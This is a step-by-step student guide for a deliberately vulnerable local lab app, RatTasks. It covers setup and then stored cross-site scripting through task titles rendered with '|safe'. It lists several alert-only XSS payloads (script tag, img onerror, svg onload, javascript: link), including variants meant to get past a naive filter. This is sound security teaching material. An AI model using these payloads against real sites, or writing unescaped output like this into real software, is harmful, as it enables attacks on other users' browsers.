 # RatTasks – Student Exploit Guide (Step‑by‑Step)

> **Educational use only.** These steps are designed for the RatTasks lab running on your own machine. Do not target systems you don’t own or don’t have explicit permission to test.

Project repository: [https://github.com/The-XSS-Rat/RatDo](https://github.com/The-XSS-Rat/RatDo)

---

## 0) Setup

1. Create a Python venv and install deps:

   ```bash
   python3 -m venv venv && source venv/bin/activate
   pip install flask werkzeug
   ```
2. Run the app:

   ```bash
   python app.py
   ```
3. Open **[http://127.0.0.1:5000](http://127.0.0.1:5000)**. Create an account and log in.

> Tip: Keep DevTools → Network tab open to watch requests.

---

## 1) Stored XSS in Task Title

**Vulnerability:** Task titles are rendered with `|safe`, so HTML/JS executes when the task list renders.

### Steps

1. Log in.
2. In the **Add task** input, paste any of the payloads below and click **Add**:

   ```html
   <script>alert('XSS')</script>
   ```

   Alternative payloads (helpful if a naive `<script>` filter is later added):

   ```html
   <img src=x onerror=alert('XSS')>
   <svg/onload=alert('XSS')>
   <a href=javascript:alert('XSS')>click me</a>
   ```
3. Reload or navigate to `/` to trigger execution if needed.

### What you should observe

* An alert pops up. That’s **stored XSS** because your payload is saved to the DB and runs for anyone who views the list.

